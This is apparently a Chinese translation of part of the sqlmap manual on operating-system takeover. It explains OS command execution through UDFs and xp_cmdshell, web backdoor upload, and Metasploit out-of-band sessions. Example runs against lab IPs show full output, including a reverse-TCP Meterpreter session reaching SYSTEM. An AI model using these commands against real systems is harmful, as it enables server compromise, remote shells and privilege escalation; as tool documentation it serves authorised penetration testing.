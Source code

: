 ## 接管操作系统

### 运行任意操作系统命令

选项和开关：`--os-cmd` 和 `--os-shell`

当后端 DBMS 为 MySQL，PostgreSQL 或 Microsoft SQL Server，并且当前会话用户拥有对数据库特定功能和相关架构特性的利用权限时，sqlmap 能够在**数据库所在服务器的操作系统上运行任意的命令**。

在 MySQL 和 PostgreSQL 中，sqlmap 可以上传（通过前面描述的文件上传功能）一个包含两个用户自定义函数——分别为 `sys_exec()` 和 `sys_eval()` 的共享库（二进制文件），然后在数据库中创建出两个对应函数，并调用对应函数执行特定的命令，并允许用户选择是否打印出相关命令执行的结果。在 Microsoft SQL Server 中，sqlmap 会利用 `xp_cmdshell` 存储过程：如果该存储过程被关闭了（Microsoft SQL Server 的 2005 及以上版本默认关闭），sqlmap 则会将其重新打开；如果该存储过程不存在，sqlmap 则会重新创建它。

当用户请求标准输出，sqlmap 将使用任何可用的 SQL 注入技术（盲注、带内注入、报错型注入）去获取对应结果。相反，如果无需标准输出对应结果，sqlmap 则会使用堆查询注入技术执行相关的命令。

这些技术的相关详情可见白皮书[通过高级 SQL 注入，对操作系统进行完全控制](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857)。

针对 PostgreSQL 目标的示例：

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" --\
os-cmd id -v 1

[...]
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: PostgreSQL
[hh:mm:12] [INFO] fingerprinting the back-end DBMS operating system
[hh:mm:12] [INFO] the back-end DBMS operating system is Linux
[hh:mm:12] [INFO] testing if current user is DBA
[hh:mm:12] [INFO] detecting back-end DBMS version from its banner
[hh:mm:12] [INFO] checking if UDF 'sys_eval' already exist
[hh:mm:12] [INFO] checking if UDF 'sys_exec' already exist
[hh:mm:12] [INFO] creating UDF 'sys_eval' from the binary UDF file
[hh:mm:12] [INFO] creating UDF 'sys_exec' from the binary UDF file
do you want to retrieve the command standard output? [Y/n/a] y
command standard output:    'uid=104(postgres) gid=106(postgres) groups=106(post
gres)'

[hh:mm:19] [INFO] cleaning up the database management system
do you want to remove UDF 'sys_eval'? [Y/n] y
do you want to remove UDF 'sys_exec'? [Y/n] y
[hh:mm:23] [INFO] database management system cleanup finished
[hh:mm:23] [WARNING] remember that UDF shared object files saved on the file sys
tem can only be deleted manually
```

sqlmap 还支持模拟 shell 输入，你可以输入任意命令以执行。对应的选项是 `--os-shell`，并且和 `--sql-shell` 一样，具备 TAB 补全和记录历史命令的功能。

如果堆查询没有被 Web 应用（例如：PHP 或 ASP 且后端 DBMS 为 MySQL）识别出来，并且 DBMS 为 MySQL，假如后端 DBMS 和 Web 服务器在同一台服务器上，则仍可以通过利用 `SELECT` 语句中的 `INTO OUTFILE`，在 Web 服务器根目录中的可写目录中创建 Web 后门，从而执行命令。sqlmap 支持上述功能并允许用户提供一个逗号分隔、用于指定根目录子目录的列表，从而尝试上传 Web 文件传输器和后续的 Web 后门。sqlmap 有以下几种语言的 Web 文件传输器和后门：

* ASP
* ASP.NET
* JSP
* PHP

###  有状态带外连接：Meterpreter & friends

开关和选项：`--os-pwn`，`--os-smbrelay`，`--os-bof`，`--priv-esc`，`--msf-path` 和 `--tmp-path`

当后端 DBMS 为 MySQL，PostgreSQL 或 Microsoft SQL Server 时，并且当前会话用户拥有对数据库特定功能和架构缺陷的利用权限时，sqlmap 能够在**攻击者机器与数据库服务器之间建立起有状态带外 TCP 连接**。根据用户的选择，该连接可以是交互式命令行、Meterpreter 会话、或者图形用户界面（VNC）会话。

sqlmap 依赖 Metasploit 创建 shellcode，并实现了四种不同的技术在数据库服务器上执行它。这些技术分别是：

* 通过 sqlmap 的用户自定义函数 `sys_bineval()` 在数据库**内存中执行 Metasploit shellcode**。MySQL 和 PostgreSQL 支持该技术，通过开关 `--os-pwn` 启用。
* 通过 sqlmap 的用户自定义函数 `sys_exec()` 向 MySQL 和 PostgreSQL 上传一个 Metasploit **独立 payload 传输器**并执行，对于 Microsoft SQL Server 则是使用 `xp_cmdshell()` 函数，通过开关 `--os-pwn` 启用。
* 通过进行从数据库服务器到攻击者机器（由 Metasploit `smb_relay` 服务监听）之间的 UNC 路径请求的 **SMB 反射攻击**（[MS08-068](http://www.microsoft.com/technet/security/Bulletin/MS08-068.mspx)）来执行 Metasploit shellcode。当 sqlmap 运行于具有高权限（`uid=0`）的 Linux/Unix 上，且目标 DBMS 以 Windows 管理员身份运行时支持该技术，通过开关 `--os-smbrelay` 启用。
* 通过利用 **Microsoft SQL Server 2000 和 2005 的 `sp_replwritetovarbin` 存储过程堆缓冲区溢出**（[MS09-004](http://www.microsoft.com/technet/security/bulletin/ms09-004.mspx)）在数据库内存中执行 Metasploit shellcode。sqlmap 使用自己的 exploit，自动绕过 DEP 内存保护来触发漏洞，但它依赖 Metasploit 生成 shellcode，以便在成功利用时执行，通过开关 `--os-bof` 启用。

相关的技术详情可见于白皮书[通过高级 SQL 注入完全控制操作系统](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857)和幻灯片[将控制由数据库层面拓展到操作系统](http://www.slideshare.net/inquis/expanding-the-control-over-the-operating-system-from-the-database)。

针对 MySQL 目标的示例：

```
$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/iis/get_int_55.aspx?\
id=1" --os-pwn --msf-path /software/metasploit

[...]
[hh:mm:31] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2003
web application technology: ASP.NET, ASP.NET 4.0.30319, Microsoft IIS 6.0
back-end DBMS: MySQL 5.0
[hh:mm:31] [INFO] fingerprinting the back-end DBMS operating system
[hh:mm:31] [INFO] the back-end DBMS operating system is Windows
how do you want to establish the tunnel?
[1] TCP: Metasploit Framework (default)
[2] ICMP: icmpsh - ICMP tunneling
> 
[hh:mm:32] [INFO] testing if current user is DBA
[hh:mm:32] [INFO] fetching current user
what is the back-end database management system architecture?
[1] 32-bit (default)
[2] 64-bit
> 
[hh:mm:33] [INFO] checking if UDF 'sys_bineval' already exist
[hh:mm:33] [INFO] checking if UDF 'sys_exec' already exist
[hh:mm:33] [INFO] detecting back-end DBMS version from its banner
[hh:mm:33] [INFO] retrieving MySQL base directory absolute path
[hh:mm:34] [INFO] creating UDF 'sys_bineval' from the binary UDF file
[hh:mm:34] [INFO] creating UDF 'sys_exec' from the binary UDF file
how do you want to execute the Metasploit shellcode on the back-end database und
erlying operating system?
[1] Via UDF 'sys_bineval' (in-memory way, anti-forensics, default)
[2] Stand-alone payload stager (file system way)
> 
[hh:mm:35] [INFO] creating Metasploit Framework multi-stage shellcode 
which connection type do you want to use?
[1] Reverse TCP: Connect back from the database host to this machine (default)
[2] Reverse TCP: Try to connect back from the database host to this machine, on 
all ports 
between the specified and 65535
[3] Bind TCP: Listen on the database host for a connection
> 
which is the local address? [192.168.136.1] 
which local port number do you want to use? [60641] 
which payload do you want to use?
[1] Meterpreter (default)
[2] Shell
[3] VNC
> 
[hh:mm:40] [INFO] creation in progress ... done
[hh:mm:43] [INFO] running Metasploit Framework command line interface locally, p
lease wait..

                                _
                                | |      o
_  _  _    _ _|_  __,   ,    _  | |  __    _|_
/ |/ |/ |  |/  |  /  |  / \_|/ \_|/  /  \_|  |
|  |  |_/|__/|_/\_/|_/ \/ |__/ |__/\__/ |_/|_/
                        /|
                        \|


    =[ metasploit v3.7.0-dev [core:3.7 api:1.0]
+ -- --=[ 674 exploits - 351 auxiliary
+ -- --=[ 217 payloads - 27 encoders - 8 nops
    =[ svn r12272 updated 4 days ago (2011.04.07)

PAYLOAD => windows/meterpreter/reverse_tcp
EXITFUNC => thread
LPORT => 60641
LHOST => 192.168.136.1
[*] Started reverse handler on 192.168.136.1:60641 
[*] Starting the payload handler...
[hh:mm:48] [INFO] running Metasploit Framework shellcode remotely via UDF 'sys_b
ineval', please wait..
[*] Sending stage (749056 bytes) to 192.168.136.129
[*] Meterpreter session 1 opened (192.168.136.1:60641 -> 192.168.136.129:1689) a
t Mon Apr 11 hh:mm:52 +0100 2011

meterpreter > Loading extension espia...success.
meterpreter > Loading extension incognito...success.
meterpreter > [-] The 'priv' extension has already been loaded.
meterpreter > Loading extension sniffer...success.
meterpreter > System Language : en_US
OS              : Windows .NET Server (Build 3790, Service Pack 2).
Computer        : W2K3R2
Architecture    : x86
Meterpreter     : x86/win32
meterpreter > Server username: NT AUTHORITY\SYSTEM
meterpreter > ipconfig

MS TCP Loopback interface
Hardware MAC: 00:00:00:00:00:00
IP Address  : 127.0.0.1
Netmask     : 255.0.0.0



Intel(R) PRO/1000 MT Network Connection
Hardware MAC: 00:0c:29:fc:79:39
IP Address  : 192.168.136.129
Netmask     : 255.255.255.0


meterpreter > exit

[*] Meterpreter session 1 closed.  Reason: User exit
```

默认情况下，MySQL 在 Windows 上以 `SYSTEM` 身份运行，然而 PostgreSQL 在 Windows 和 Linux 上均以低权限用户 `postgres` 运行。Microsoft SQL Server 2000 默认以 `SYSTEM` 身份运行，而 Microsoft SQL 2005 和 2008 大部分情况下以 `NETWORK SERVICE` 身份运行，有时候以 `LOCAL SERVICE` 身份运行。

使用 sqlmap 的 `--priv-esc` 开关，可以通过 Metasploit `getsystem` 命令进行**数据库进程用户提权，该命令使用了包括 [kitrap0d](http://archives.neohapsis.com/archives/fulldisclosure/2010-01/0346.html) 在内的各种技术（[MS10-015](http://www.microsoft.com/technet/security/bulletin/ms10-015.mspx)）。